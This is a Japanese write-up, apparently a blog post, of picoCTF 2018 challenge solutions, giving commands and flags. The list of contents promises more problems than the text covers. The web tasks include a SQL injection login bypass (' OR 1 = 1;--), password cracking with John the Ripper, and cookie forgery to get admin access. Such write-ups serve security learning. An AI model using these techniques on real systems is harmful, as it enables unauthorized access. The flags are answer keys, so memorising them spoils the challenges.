



Team `HaruharaMai` として出場し29235点を獲得しました。僕が書ける61問についてとりあえずWriteUpを置いておきます。

- [Forensics Warmup 1](#forensics-warmup-1)
- [Forensics Warmup 2](#forensics-warmup-2)
- [General Warmup 1](#general-warmup-1)
- [General Warmup 2](#general-warmup-2)
- [General Warmup 2](#general-warmup-2-1)
- [Resources](#resources)
- [Reversing Warmup 1](#reversing-warmup-1)
- [Reversing Warmup 2](#reversing-warmup-2)
- [Crypto Warmup 1](#crypto-warmup-1)
- [Crypto Warmup 2](#crypto-warmup-2)
- [grep 1](#grep-1)
- [grep 2](#grep-2)
- [net cat](#net-cat)
- [HEEEEEEERE'S Johnny!](#heeeeeeere-s-johnny-)
- [strings](#strings)
- [pipe](#pipe)
- [Inspect Me](#inspect-me)
- [Aca-Shell-A](#aca-shell-a)
- [Client Side is Still Bad](#client-side-is-still-bad)
- [Desrouleaux](#desrouleaux)
- [Logon](#logon)
- [Reading Between the Eyes](#reading-between-the-eyes)
- [admin panel](#admin-panel)
- [caesar cipher 1](#caesar-cipher-1)
- [environ](#environ)
- [hertz](#hertz)
- [hertz 2](#hertz-2)
- [hex editor](#hex-editor)
- [ssh-keyz](#ssh-keyz)
- [Irish Name Repo](#irish-name-repo)
- [Mr. Robots](#mr-robots)
- [No Login](#no-login)
- [Secret Agent](#secret-agent)
- [Truly an Artist](#truly-an-artist)
- [quackme](#quackme)
- [quackme up](#quackme-up)
- [Ext Super Magic](#ext-super-magic)
- [Lying Out](#lying-out)
- [Safe RSA](#safe-rsa)
- [Super Safe RSA](#super-safe-rsa)
- [Super Safe RSA 2](#super-safe-rsa-2)
- [Super Safe RSA 3](#super-safe-rsa-3)
- [What's My Name?](#what-s-my-name-)
- [absolutely relative](#absolutely-relative)
- [in out error](#in-out-error)
- [Artisinal Handcrafted HTTP 3](#artisinal-handcrafted-http-3)
- [Flaskcards](#flaskcards)
- [Flaskcards Skeleton Key](#flaskcards-skeleton-key)
- [Flaskcards and Freedom](#flaskcards-and-freedom)
- [eleCTRic](#electric)
- [fancy-alive-monitoring](#fancy-alive-monitoring)
- [keygen-me-1](#keygen-me-1)
- [keygen-me-2](#keygen-me-2)
- [store](#store)
- [Magic Padding Oracle](#magic-padding-oracle)
- [Secure Logon](#secure-logon)
- [script me](#script-me)
- [assembly-4](#assembly-4)
- [Help Me Reset 2](#help-me-reset-2)
- [special-pw](#special-pw)
- [circuit123](#circuit123)

# Forensics Warmup 1
解凍するとJPEG画像が出てくる。


# Forensics Warmup 2
なんか普通に開けたけど、嘘拡張子がついてたっぽい?


# General Warmup 1
`(char) 0x41`は`'A'`と等しいです。

`picoCTF{A}`

# General Warmup 2
27 = 16 + 8 + 2 + 1 = 0b11011

`picoCTF{11011}`

# General Warmup 2
0x3d = 3 * 16 + 13 = 61

`picoCTF{61}`

# Resources
読むと`picoCTF{xiexie_ni_lai_zheli}`って書いてある。
(多分この問題は他の誰かが通したような気がする)

# Reversing Warmup 1
動かす。
```
m1kit@pico-2018-shell-2:~$ /problems/reversing-warmup-1_4_censored/run 
picoCTF{welc0m3_t0_r3VeRs1nG}
```

# Reversing Warmup 2
`base64 デコード`とかで検索する。
```
m1kit@pico-2018-shell-2:~$ echo 'dGg0dF93NHNfczFtcEwz' | base64 -d
th4t_w4s_s1mpL3
```

`picoCTF{th4t_w4s_s1mpL3}`

# Crypto Warmup 1
換字式暗号的な。`A=0, B=1, ..., Z=25`とすると、平文`m`と鍵`k`と暗号文`e`の間には次のような関係が成り立っている。

`m≡e-k`

本番は手動で行ったが、次のようなコードで解読が可能である。
```java
public class Solver {
    public static void main(String ... args) {
        String cipher = "llkjmlmpadkkc";
        String key = "thisisalilkey";
        IntStream.range(0, key.length())
                .map(i -> (cipher.charAt(i)- key.charAt(i) + 26) % 26)
                .forEach(c -> System.out.print((char) (c + 'A')));
    }
}
```

```
SECRETMESSAGE
Process finished with exit code 0
```

`picoCTF{SECRETMESSAGE}`

# Crypto Warmup 2
ROT13って知ってますか問題。知らなくても`{}`の位置的にアルファベットだけが置き換わる換字式暗号っぽいことはわかるし、1文字目の`c`は`p`に置き換わるのはだいたい御察しの通り。
```
$ python -c 'print(raw_input().encode("rot13"))'
cvpbPGS{guvf_vf_pelcgb!}                      
picoCTF{this_is_crypto!}
```

# grep 1
```
$ strings ./file | grep picoCTF
picoCTF{grep_and_you_will_find_52e63a9f}
```

# grep 2
```
m1kit@pico-2018-shell-2:/problems/grep-2_4_censored/files$ find -type f -print0 | xargs -0 more | cat | grep pico
picoCTF{grep_r_and_you_will_find_036bbb25}
```

# net cat
にゃーん
```
m1kit@pico-2018-shell-2:~$ nc 2018shell2.picoctf.com ポート番号
That wasn't so hard was it?
picoCTF{NEtcat_iS_a_NEcESSiTy_8b6a1fbc}
```

# HEEEEEEERE'S Johnny!
```
$ unshadow passwd shadow > t
$ john t --show
root:kissme:0:0:root:/root:/bin/bash
```
```
m1kit@pico-2018-shell-2:~$ nc 2018shell2.picoctf.com ポート番号
Username: root
Password: kissme
picoCTF{J0hn_1$_R1pp3d_289677b5}
```

# strings
```
$ strings strings | grep pico
picoCTF{sTrIngS_sAVeS_Time_d3ffa29c}
```

# pipe
```
$ nc 2018shell2.picoctf.com ポート番号 | grep pico
picoCTF{almost_like_mario_8861411c}
```

# Inspect Me
`chrome`の開発者ツールでコードを`Inspect`していく。結果から言うと、フラグの断片がhtmlファイル、cssファイル、jsファイルにそれぞれ隠されている。

<details><summary>html</summary>

```html
<!doctype html>
<html>
  <head>
    <title>My First Website :)</title>
    <link href="https://fonts.googleapis.com/css?family=Open+Sans|Roboto" rel="stylesheet">
    <link rel="stylesheet" type="text/css" href="mycss.css">
    <script type="application/javascript" src="myjs.js"></script>
  </head>

  <body>
    <div class="container">
      <header>
	<h1>My First Website</h1>
      </header>

      <button class="tablink" onclick="openTab('tabintro', this, '#222')" id="defaultOpen">Intro</button>
      <button class="tablink" onclick="openTab('tababout', this, '#222')">About</button>
      
      <div id="tabintro" class="tabcontent">
	<h3>Intro</h3>
	<p>This is my first website!</p>
      </div>

      <div id="tababout" class="tabcontent">
	<h3>About</h3>
	<p>These are the web skills I've been practicing: <br/>
	  HTML <br/>
	  CSS <br/>
	  JS (JavaScript)
	</p>
	<!-- I learned HTML! Here's part 1/3 of the flag: picoCTF{ur_4_real_1nspe -->
      </div>
      
    </div>
    
  </body>
</html>
```

</details>

1つ目は`picoCTF{ur_4_real_1nspe`

<details><summary>css</summary>

```css
div.container {
    width: 100%;
}

header {
    background-color: #c9d8ef;
    padding: 1em;
    color: white;
    clear: left;
    text-align: center;
}

body {
    font-family: Roboto;
}

h1 {
    color: #222;
}

p {
    font-family: "Open Sans";
}

.tablink {
    background-color: #555;
    color: white;
    float: left;
    border: none;
    outline: none;
    cursor: pointer;
    padding: 14px 16px;
    font-size: 17px;
    width: 50%;
}

.tablink:hover {
    background-color: #777;
}

.tabcontent {
    color: #111;
    display: none;
    padding: 50px;
    text-align: center;
}

#tabintro { background-color: #ccc; }
#tababout { background-color: #ccc; }

/* I learned CSS! Here's part 2/3 of the flag: ct0r_g4dget_402b0bd3} */
```

</details>

2つ目は`ct0r_g4dget_402b0bd3}` (3つ目探す意味なくないとか言わない)

<details><summary>js</summary>

```js
function openTab(tabName,elmnt,color) {
    var i, tabcontent, tablinks;
    tabcontent = document.getElementsByClassName("tabcontent");
    for (i = 0; i < tabcontent.length; i++) {
	tabcontent[i].style.display = "none";
    }
    tablinks = document.getElementsByClassName("tablink");
    for (i = 0; i < tablinks.length; i++) {
	tablinks[i].style.backgroundColor = "";
    }
    document.getElementById(tabName).style.display = "block";
    if(elmnt.style != null) {
	elmnt.style.backgroundColor = color;
    }
}

window.onload = function() {
    openTab('tabintro', this, '#222');
}

/* I learned JavaScript! Here's part 3/3 of the flag:  */
```

</details>

3つ目は` `(虚無)

`picoCTF{ur_4_real_1nspect0r_g4dget_402b0bd3}`

# Aca-Shell-A
途中に出てくる謎データは果たして意味があるんだろうか

<details><summary>shell</summary>

```
Sweet! We have gotten access into the system but we aren't root.
It's some sort of restricted shell! I can't see what you are typing
but I can see your output. I'll be here to help you along.
If you need help, type "echo 'Help Me!'" and I'll see what I can do
There is not much time left!
~/$ cd secret
Now we are cookin'! Take a look around there and tell me what you find!
~/secret$ ls
intel_1
intel_2
intel_3
intel_4
intel_5
profile_ahqueith5aekongieP4ahzugi
profile_ahShaighaxahMooshuP1johgo
profile_aik4hah9ilie9foru0Phoaph0
profile_AipieG5Ua9aewei5ieSoh7aph
profile_bah9Ech9oa4xaicohphahfaiG
profile_ie7sheiP7su2At2ahw6iRikoe
profile_of0Nee4laith8odaeLachoonu
profile_poh9eij4Choophaweiwev6eev
profile_poo3ipohGohThi9Cohverai7e
profile_Xei2uu5suwangohceedaifohs
Sabatoge them! Get rid of all their intel files!
~/secret$ rm *
Nice! Once they are all gone, I think I can drop you a file of an exploit!
Just type "echo 'Drop it in!' " and we can give it a whirl!
~/secret$ echo 'Drop it in!'
Drop it in!
I placed a file in the executables folder as it looks like the only place we can execute from!
Run the script I wrote to have a little more impact on the system!
~/secret$ cd ..
~/$ cd executables
~/executables$ ./dontLookHere
 666f 7499 86ff c4f8 7030 abdc 43b5 9106 c9d3 51b1 44a8 91b2 98dd ac14 3009 ba8f 9ee5 565d 2632 5286 58f5 4812 fe96 160d 8713
 d915 ef49 b3fc 7524 6a42 9f84 b5f3 4429 be92 f80b 0654 1c5a 0dab c42b fd49 7f09 3c4b 363a 97b6 fec5 6ae5 059b c598 a02a 06b4
 5279 8dc7 fef4 5fa3 6aba a4a4 bd73 4100 a96e e2d2 bb92 95f9 62af 703e 4ce4 958b 79ef fd97 afeb 4007 bbfd ef01 7d1b 62a9 66b0
 1fb6 a34d 055e fe26 5e96 25e9 9d2b 33e1 3a1e 7424 31ae 42f3 cc1a f12d a4e0 6b41 d422 6df3 93ce 0c60 c8fd d884 7766 f37f 64df
 b4f7 32da 4f00 2d0e bd08 ec2f 3bd5 fbaf a35a 53b7 a8f6 0fc0 5eea 2834 772d b7b1 3a69 051b d2a1 82b3 5a61 3100 4048 5a2d 9108
 e064 2e3d 31b9 66bf e7c1 4e1f df86 5a6a 5da6 8328 1488 8481 a0cc 58c4 388a 4e8b 184d 411a de41 884d c721 87f1 4b63 c82e fb5a
 1659 047a f799 4901 0278 39c9 34eb 9072 5caa 5283 49c7 e79d 87c2 c0ac 878a dd51 e891 dd8e aedd 0e05 516e df04 c3b6 eb35 3d83
 5ac7 a371 999f 55aa 5c8a b757 e1f1 c752 d686 99a6 86b8 28d8 4020 5669 e24d 3e54 f752 25da eb49 6482 2bb7 ac27 d6ba 88c2 637b
 25b7 bdc9 a3e3 a36b 705b c98a 7238 ff4a e79d 24c0 af64 84dc 80f3 7b75 2eba ee27 ac90 c872 50a8 35be cd87 6c07 f887 2ade 4709
 d23c 3e62 4792 4026 c919 575b d277 2860 0e5a 4036 0e81 f248 8e0e 850c baea 4514 6075 1f7a b1d6 eb08 9c35 9d5c 7273 e798 4694
 978b 7f52 59fb b0f0 0690 2d38 155b f3d6 31fb 7f7d cb11 cf61 1097 2f19 7d01 6b6f abf0 1387 bf9b 81e3 3ef7 e147 2420 5d21 fdc6
 b347 a442 2de2 ff40 a478 a611 35c4 859d dd95 3d5a 4dfe 3e4e f745 7d50 48a5 d7e2 fab2 5cf5 f9b8 3b14 f7a8 8358 3727 1938 cfb9
 1b50 4967 d51b 0d38 b6b1 f2af f3b9 4182 9bfd 1ca0 2d83 f799 405a aeda 4b39 52fb 4f7e 3581 bae4 70d5 803c d902 7075 1c01 21f4
 f840 fc48 68e4 a1da 72cf 3bba cd37 3425 58cb f27b 2dcf 9178 1a3d 5c2d 6819 f9c0 bd11 ce8e 0a73 c4f6 740b 5f73 c441 db8e 754a
 e1dd d5fb 06f9 813b 2f78 f5e8 e9c8 43b6 fae9 e37c 6c42 1a0a 233b 80c4 c7a4 da49 fde3 78df 89eb e937 2981 07b8 ce6e 97fe db55
 3cc4 6c01 acfe f6db 4572 e577 f67e 261a ee92 d9aa 39b1 0c67 30d5 eeba f3d7 5c69 f28e 3fa4 b788 03e0 abd0 81f3 5a4d 7014 7421
 c8ba f729 da4b a225 105c c518 125f 62a3 5e04 f8c4 b855 5815 1dcc 8eb4 67f1 219c d779 6dc6 0223 2951 d81d 4413 9130 1482 b263
 1f2d 8f40 4d53 0207 df9f ea35 7147 2e2e 1021 a225 b393 c9d3 eaed 0ea7 db86 4b98 3f3b 49dc 4f2e 2bcd 4cdb 3d5d 708b 3478 cfd8
 2570 3e91 a8e5 d8ac b088 b1de d2c8 b6ef bc10 2fa2 56b0 2cf9 d32a 8f6d e3a5 a9ca 6d07 ca4a 5a94 4604 7c6d 5bab c66c 03b8 f61d
 10e4 1848 e2a9 ecf8 c8a9 2a9e af4a 9349 2ecc 1b3a 7908 6e57 a047 ddef da5c 6d1e 07ed d146 aff9 2099 5617 3450 cb96 87f3 3c74
 cbf5 57d7 6797 84cb 8acd 6ea5 a3c3 0116 e0d9 e200 5580 56a7 6553 b919 196f 7f76 e811 9dd6 4fc8 376f 9b0b 7e93 ee55 7749 c777
 80a3 e808 c846 54fb 5f2a a8d4 b1b7 ddfd a208 1f44 83e8 cc4e d945 64e1 1002 6392 f934 2e0d 0de8 11a9 e748 efcc cb11 3dae ee53
 9ada e37f b367 18bb 1cf4 f16b b7a3 2c66 024f a6d2 cd2b 1b65 9772 1c97 6ec9 004e 89e2 30f3 44a9 903f bcea 5713 ee56 52e1 e25a
 8bcd 4214 951f fbaf e7e0 a064 8483 daab 773d 1e4a 0a91 9f65 5beb bccc d0cb 2867 5225 be61 0973 7ac0 d012 b5e0 5a53 5c71 af2d
 8ba2 895c 6a9a fabc da65 b008 de4a 601c f05a 17a9 b49f 7c95 aafd abe3 e4bf 04d6 f1a2 98bb 8a34 fad5 cd9d 9c04 5197 9328 d8c4
 537c 334e c8ca ec99 ca62 78d6 4f47 9521 77e1 e749 0d2a 213e 16f3 9afe 3963 0a0b f415 6c59 89b7 a3b7 a954 2a06 277e 6031 49ac
 ff2f 2c02 1eb4 9f41 b885 d1e8 2b2b ffeb e4c1 6f7c a19d 3f11 4e63 1e48 87cd eee5 2335 6568 d935 4119 d4ae cf64 f9e7 fb0e c455
 07fd 42a6 67e8 f68c 8bb9 ac8e 3752 7268 f0c8 1845 628f 161f dec5 2141 3ac2 470b 736a 66ff 7911 48ab 6106 b483 7d6f d0a2 1645
 d1b2 95d2 2037 7250 e5e2 eb44 d307 3637 1ff6 075c 5705 e533 9617 23be 280b 34e0 9072 dc5c e9bd 5d03 3adc 37ee 917c 6117 2ea1
 c866 f456 409c 5aab 957f c466 2424 5947 e931 80b1 584b 586e 3576 fbbe f5a1 bd36 ad5a 363e 31c2 f748 8814 2e87 32cf 5b6d 9f56
 d2c6 4c40 f09a 9ee6 f660 744e aa2d 04b0 b2e6 1ebf 826f d0ba 2dd0 ed1f e831 ea74 22bd f4db 9234 d6d3 d319 d932 756c fac5 6b9f
Looking through the text above, I think I have found the password. I am just having trouble with a username.
Oh drats! They are onto us! We could get kicked out soon!
Quick! Print the username to the screen so we can close are backdoor and log into the account directly!
You have to find another way other than echo! 
~/executables$ whoami
l33th4x0r
Perfect! One second!
Okay, I think I have got what we are looking for. I just need to to copy the file to a place we can read.
Try copying the file called TopSecret in tmp directory into the passwords folder.
~/executables$ cd ..
~/$ cp /tmp/TopSecret passwords
Server shutdown in 10 seconds...
Quick! go read the file before we lose our connection!
~/$ cd passwords
~/passwords$ ls
TopSecret
~/passwords$ cat TopSecret
Major General John M. Schofield's graduation address to the graduating class of 1879 at West Point is as follows: The discipline which makes the soldiers of a free country reliable in battle is not to be gained by harsh or tyrannical treatment.On the contrary, such treatment is far more likely to destroy than to make an army.It is possible to impart instruction and give commands in such a manner and such a tone of voice as to inspire in the soldier no feeling butan intense desire to obey, while the opposite manner and tone of voice cannot fail to excite strong resentment and a desire to disobey.The one mode or other of dealing with subordinates springs from a corresponding spirit in the breast of the commander.He who feels the respect which is due to others, cannot fail to inspire in them respect for himself, while he who feels,and hence manifests disrespect towards others, especially his subordinates, cannot fail to inspire hatred against himself.
picoCTF{CrUsHeD_It_9edaa84a}
```

</details>

# Client Side is Still Bad
Inspect Meと同じ要領で。

<details><summary>js</summary>

```js
  function verify() {
    checkpass = document.getElementById("pass").value;
    split = 4;
    if (checkpass.substring(split*7, split*8) == '}') {
      if (checkpass.substring(split*6, split*7) == '06ac') {
        if (checkpass.substring(split*5, split*6) == 'd_5e') {
         if (checkpass.substring(split*4, split*5) == 's_ba') {
          if (checkpass.substring(split*3, split*4) == 'nt_i') {
            if (checkpass.substring(split*2, split*3) == 'clie') {
              if (checkpass.substring(split, split*2) == 'CTF{') {
                if (checkpass.substring(0,split) == 'pico') {
                  alert("You got the flag!")
                  }
                }
              }
      
            }
          }
        }
      }
    }
    else {
      alert("Incorrect password");
    }
  }
```

</details>

`picoCTF{client_is_bad_5e06ac}`

# Desrouleaux
最初の質問は`grep`を使うと簡単。
```
$ cat ./incidents.json | grep src
            "src_ip": "248.63.150.241",
            "src_ip": "248.63.150.241",
            "src_ip": "236.232.221.165",
            "src_ip": "236.232.221.165",
            "src_ip": "117.17.33.39",
            "src_ip": "248.63.150.241",
            "src_ip": "236.232.221.165",
            "src_ip": "248.63.150.241",
            "src_ip": "161.120.143.78",
            "src_ip": "248.63.150.241",
```
`248.63.150.241`が4回で最多っぽいですね。

次の質問は適当に答えました(おい) 2か3か4とか無難な数字を答えると当たります。
最後の質問は英文の読解力がなくていまいち理解できていませんが、10ticketsに対してユニークはハッシュが7個存在しているので、7/10=1.42が正解となるようです。英語むずかちい。

<details><summary>shell</summary>

```
You'll need to consult the file `incidents.json` to answer the following questions.


What is the most common source IP address? If there is more than one IP address that is the most common, you may give any of the most common ones.
248.63.150.241
Correct!


How many unique destination IP addresses were targeted by the source IP address 236.232.221.165?
3
Correct!


What is the average number of unique destination IP addresses that were sent a file with the same hash? Your answer needs to be correct to 2 decimal places.
1.42
Correct!


Great job. You've earned the flag: picoCTF{J4y_s0n_d3rUUUULo_c74e3495}
```

</details>

# Logon
適当なユーザー名とパスワードでもログオンは可能だが、フラグが表示されない。どうやら特別な権限のあるユーザーとしてログインしないといけないらしい。取り敢えずCookieを覗くと、むちゃくちゃ怪しい値があるので改竄してみる。

`Admin: True`と書き換えてリロードすると、以下のようにフラグが表示される。


`picoCTF{l0g1ns_ar3nt_r34l_82e795f4}`

# Reading Between the Eyes
http://stylesuxx.github.io/steganography/
通すだけ。`picoCTF{r34d1ng_b37w33n_7h3_by73s}`

# admin panel
wireshark最高！！！
```
$ strings ./data.pcap | grep pico
user=admin&password=picoCTF{n0ts3cur3_b186631d}
```

`picoCTF{n0ts3cur3_b186631d}`

# caesar cipher 1
caesar cipherとはアルファベットの文字を全てn文字ずらす暗号。アルファベットが26文字しかないので、26を法として合同なnに対して暗号文は全て一致する。よって、26通り全てで復号化を試すことにより正解を得られる。
`picoCTF{payzgmuujurjigkygxiovnkxlcgihubb}`
がもっともそれらしく復号されると
`picoCTF{justagoodoldcaesarcipherfwacbovv}`

# environ
```
m1kit@pico-2018-shell-2:~$ printenv | grep pico
SECRET_FLAG=picoCTF{eNv1r0nM3nT_v4r14Bl3_fL4g_3758492}
```

# hertz

<details><summary>問題</summary>

```
-------------------------------------------------------------------------------
okneuzsh ytut mh dkpu qcze - hpfhsmspsmkn_ombytuh_zut_hkcizfct_ixcibixogu
-------------------------------------------------------------------------------
hszstcd, bcpxb fpoa xpccmezn ozxt qukx syt hszmuytzl, ftzumne z fkgc kq
czsytu kn gymoy z xmuuku znl z uzwku czd oukhhtl. z dtcckg luthhmneekgn,
pnemulctl, gzh hphszmntl etnscd ftymnl ymx kn syt xmcl xkunmne zmu. yt
ytcl syt fkgc zckqs znl mnskntl:

-mnsukmfk zl zcszut ltm.

yzcstl, yt bttutl lkgn syt lzua gmnlmne hszmuh znl ozcctl kps okzuhtcd:

-okxt pb, amnoy! okxt pb, dkp qtzuqpc jthpms!

hkctxncd yt ozxt qkugzul znl xkpnstl syt ukpnl epnuths. yt qzotl zfkps
znl fcthhtl euzitcd syumot syt skgtu, syt hpuukpnlmne cznl znl syt
zgzamne xkpnszmnh. sytn, ozsoymne hmeys kq hstbytn ltlzcph, yt ftns
skgzulh ymx znl xzlt uzbml oukhhth mn syt zmu, epuecmne mn ymh syukzs
znl hyzamne ymh ytzl. hstbytn ltlzcph, lmhbctzhtl znl hcttbd, ctzntl
ymh zuxh kn syt skb kq syt hszmuozht znl ckkatl okclcd zs syt hyzamne
epuecmne qzot syzs fcthhtl ymx, trpmnt mn msh ctnesy, znl zs syt cmeys
pnsknhputl yzmu, euzmntl znl yptl cmat bzct kza.

fpoa xpccmezn bttbtl zn mnhszns pnltu syt xmuuku znl sytn okitutl syt
fkgc hxzuscd.

-fzoa sk fzuuzoah! yt hzml hstuncd.

yt zlltl mn z butzoytuh sknt:

-qku symh, k ltzucd ftckitl, mh syt etnpmnt oyumhsmnt: fkld znl hkpc
znl fckkl znl kpnh. hckg xphmo, bctzht. hyps dkpu tdth, etnsh. knt
xkxtns. z cmssct sukpfct zfkps sykht gymst okubphocth. hmctnot, zcc.

yt bttutl hmltgzdh pb znl ezit z ckne hckg gymhsct kq ozcc, sytn bzphtl
zgymct mn uzbs zsstnsmkn, ymh titn gymst sttsy ecmhstnmne ytut znl sytut
gmsy ekcl bkmnsh. oyudhkhskxkh. sgk hsukne hyumcc gymhscth znhgtutl
syukpey syt ozcx.

-syznah, kcl oyzb, yt oumtl fumhacd. syzs gmcc lk nmotcd. hgmsoy kqq
syt opuutns, gmcc dkp?

yt hambbtl kqq syt epnuths znl ckkatl euzitcd zs ymh gzsoytu, ezsytumne
zfkps ymh cteh syt ckkht qkclh kq ymh ekgn. syt bcpxb hyzlkgtl qzot znl
hpcctn kizc jkgc utozcctl z butczst, bzsukn kq zush mn syt xmllct zeth.
z bctzhzns hxmct fukat rpmtscd kitu ymh cmbh.
```

</details>

という意味不明な文章が与えられる。ここで注目すべきは、なぜかフラグの文字数よりも明らかに多い文章が与えられているということ。
この暗号文も一種の換字式暗号であるが、caesar cipherと違いアルファベットに対して任意の置換を施しており、鍵は`26!~=4*10^26`通りもある。これは総当たりできないので、このような長い文章から各単語が意味を持つ英単語になるように鍵を特定していくことになる。ここで、(https://www.guballa.de/substitution-solver)[便利なサイト]を用いれば鍵が以下のようになっていることがわかり、平文が解読できる。

今回は`abcdefghijklmnopqrstuvwxyz`がそれぞれ`zfoltqeymjacxnkbruhspigvdw`に対応していた。

<details><summary>平文</summary>


```
-------------------------------------------------------------------------------
congrats here is your flag - substitution_ciphers_are_solvable_vmlvpvmcwr
-------------------------------------------------------------------------------
stately, plump buck mulligan came from the stairhead, bearing a bowl of
lather on which a mirror and a razor lay crossed. a yellow dressinggown,
ungirdled, was sustained gently behind him on the mild morning air. he
held the bowl aloft and intoned:

-introibo ad altare dei.

halted, he peered down the dark winding stairs and called out coarsely:

-come up, kinch! come up, you fearful jesuit!

solemnly he came forward and mounted the round gunrest. he faced about
and blessed gravely thrice the tower, the surrounding land and the
awaking mountains. then, catching sight of stephen dedalus, he bent
towards him and made rapid crosses in the air, gurgling in his throat
and shaking his head. stephen dedalus, displeased and sleepy, leaned
his arms on the top of the staircase and looked coldly at the shaking
gurgling face that blessed him, equine in its length, and at the light
untonsured hair, grained and hued like pale oak.

buck mulligan peeped an instant under the mirror and then covered the
bowl smartly.

-back to barracks! he said sternly.

he added in a preachers tone:

-for this, o dearly beloved, is the genuine christine: body and soul
and blood and ouns. slow music, please. shut your eyes, gents. one
moment. a little trouble about those white corpuscles. silence, all.

he peered sideways up and gave a long slow whistle of call, then paused
awhile in rapt attention, his even white teeth glistening here and there
with gold points. chrysostomos. two strong shrill whistles answered
through the calm.

-thanks, old chap, he cried briskly. that will do nicely. switch off
the current, will you?

he skipped off the gunrest and looked gravely at his watcher, gathering
about his legs the loose folds of his gown. the plump shadowed face and
sullen oval jowl recalled a prelate, patron of arts in the middle ages.
a pleasant smile broke quietly over his lips.
```

</details>

`picoCTF{substitution_ciphers_are_solvable_vmlvpvmcwr}`

# hertz 2
```
Wby toskm nejuv djf xoqip jgye wby lhza rjc. S khv'w nylsygy wbsp sp pokb hv yhpa iejnlyq sv Iskj. Sw'p hlqjpw hp sd S pjlgyr h iejnlyq hleyhra! Jmha, dsvy. Byey'p wby dlhc: iskjKWD{ponpwswowsjv_ksibyep_hey_wjj_yhpa_giaaralvvp}
```
なんか文章が短くなってるし通るのか微妙そうだけど取り敢えずさっきのツールに通す。
```
The quick brown fox jumps over the lazy dog. I can't believe this is such an easy problem in Pico. It's almost as if I solved a problem already! Okay, fine. Here's the flag: picoCTF{substitution_ciphers_are_too_easy_vpyydylnns}
```
典型的な文章だからか知らないけど解析してくれた。嬉しい。

`picoCTF{substitution_ciphers_are_too_easy_vpyydylnns}`

# hex editor
バイナリエディタ最高！！
```
$ strings ./hex_editor.jpg | grep pico
Your flag is: "picoCTF{and_thats_how_u_edit_hex_kittos_8BcA67a2}"
```

# ssh-keyz
パスワード認証でもフラグ貰えるやん...
```
$ ssh m1kit@2018shell2.picoctf.com
picoCTF{who_n33ds_p4ssw0rds_38dj21}
```

# Irish Name Repo
ユーザー名に`' OR 1 = 1;--`と入れるとログインできる、典型的なSQLインジェクション問題でした。
```
Logged in!
Your flag is: picoCTF{con4n_r3411y_1snt_1r1sh_c0d93e2f}
```

# Mr. Robots
ロボットが見るページと言えば、`http://2018shell2.picoctf.com:ポート番号/robots.txt`ですよね。これは検索エンジンの
クローラ向けのページですが、覗いてみましょう。
```
User-agent: *
Disallow: /c4075.html
```
なるほどなるほど、`http://2018shell2.picoctf.com:ポート番号/c4075.html`に見られたくないページがあるんだなァ〜


`picoCTF{th3_w0rld_1s_4_danger0us_pl4c3_3lli0t_c4075}`

# No Login
取り敢えずCookieを見ると謎のsessionが一瞬だけ設定されているのがわかるが、これはエラーメッセージ表示のためのJWTっぽいので今回の主題ではなさそうだった。取り敢えずguessingで`Admin=True`をCookieに追加するも反応なし。ダメ元で`admin=1`を設定するとフラグが出てきた。こんなんで良かったんだろうか...


